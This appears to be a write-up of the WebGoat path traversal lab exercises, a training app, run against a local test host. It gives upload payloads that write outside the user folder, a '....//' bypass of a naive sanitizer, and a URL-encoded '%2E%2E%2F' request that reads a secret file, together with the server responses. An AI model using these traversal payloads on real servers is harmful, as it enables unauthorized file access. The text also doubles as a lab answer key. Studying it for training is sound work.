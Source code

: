 # (A1) Path traversal

## Lesson 2 - Path traversal while uploading files
Upload the profile picture outside of the `{username}` folder:
```
-----------------------------27260332916296986533744447080
Content-Disposition: form-data; name="fullName"

../test

```

## Lesson 3 - Path traversal while uploading files
The same as the previous lesson but this time the `fullName` is sanitized.
However, the fix is not perfect: `fullName.replace("../", "")`.
```
-----------------------------22445278214949939952398157170
Content-Disposition: form-data; name="fullNameFix"

....//test
```

## Lesson 4 - Path traversal while uploading files
This time we must modify the original filename:
```
-----------------------------1740053938349190302459631647
Content-Disposition: form-data; name="uploadedFileRemoveUserInput"; filename="../myfile.txt"
Content-Type: text/plain

```

## Lesson 5 - Retrieving other files with a path traversal
Clicking on _Random picture_ sends this request:
```
GET http://vernjan:8080/WebGoat/PathTraversal/random-picture
...

---
HTTP/1.1 200 OK
Connection: keep-alive
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Location: /PathTraversal/random-picture?id=4.jpg
X-Frame-Options: DENY
Content-Type: image/jpeg
Content-Length: 58880
Date: Fri, 03 Apr 2020 07:03:20 GMT
```

Notice the `Location` header. Lets's try to call it:
```
GET http://vernjan:8080/WebGoat/PathTraversal/random-picture?id=4.jpg
...

---
C:\Users\Jan\.webgoat-v8.0.0-SNAPSHOT\PathTraversal\cats\1.jpg,C:\Users\Jan\.webgoat-v8.0.0-SNAPSHOT\PathTraversal\cats\10.jpg,C:\Users\Jan\.webgoat-v8.0.0-SNAPSHOT\PathTraversal\cats\2.jpg,C:\Users\Jan\.webgoat-v8.0.0-SNAPSHOT\PathTraversal\cats\3.jpg,C:\Users\Jan\.webgoat-v8.0.0-SNAPSHOT\PathTraversal\cats\4.jpg,C:\Users\Jan\.webgoat-v8.0.0-SNAPSHOT\PathTraversal\cats\5.jpg,C:\Users\Jan\.webgoat-v8.0.0-SNAPSHOT\PathTraversal\cats\6.jpg,C:\Users\Jan\.webgoat-v8.0.0-SNAPSHOT\PathTraversal\cats\7.jpg,C:\Users\Jan\.webgoat-v8.0.0-SNAPSHOT\PathTraversal\cats\8.jpg,C:\Users\Jan\.webgoat-v8.0.0-SNAPSHOT\PathTraversal\cats\9.jpg
```
We get directory listing back. So let's try to fix the id (i.e. remove the `.jpg` extension):
```
GET http://vernjan:8080/WebGoat/PathTraversal/random-picture?id=4
...

---
HTTP/1.1 200 OK
Connection: keep-alive
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Location: /PathTraversal/random-picture?id=4.jpg
X-Frame-Options: DENY
Content-Type: image/jpeg
Content-Length: 58880
Date: Fri, 03 Apr 2020 07:11:12 GMT

/9j/4AAQSkZJRgABAQEASABIAAD ..
```

We got the image back (base64 encoded).

Now try getting `path-traversal-secret.jpg` (located right under `c:\Users\{user}\.webgoat-v8.0.0-SNAPSHOT\`):
```
GET http://vernjan:8080/WebGoat/PathTraversal/random-picture?id=../../path-traversal-secret
...

---
Illegal characters are not allowed in the query params
```

Ok, let's try escaping:
```
GET http://vernjan:8080/WebGoat/PathTraversal/random-picture?id=%2E%2E%2F%2E%2E%2Fpath-traversal-secret
...

---
You found it submit the SHA-512 hash of your username as answer
```

The last step:
```
$ printf vernjan | sha512sum
4c5aab6d6999943bac2b9e7acca349c0c7fce12761a4798062031a0f40a08a3f4011f3b09915f868fe7966c401316951b7669f5d54d3c67774e3a63c3040c9a6  -
```
